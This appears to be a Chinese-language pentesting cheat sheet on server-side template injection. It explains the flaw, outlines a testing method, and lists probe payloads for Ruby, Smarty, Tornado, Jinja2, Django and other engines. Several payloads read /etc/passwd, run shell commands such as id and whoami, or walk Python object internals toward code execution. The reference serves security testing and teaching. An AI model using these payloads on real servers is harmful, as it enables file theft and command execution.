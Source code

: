模版注入
================================

简介
--------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
--------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试例子
--------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[2].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标
--------------------------------
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

参考链接
--------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
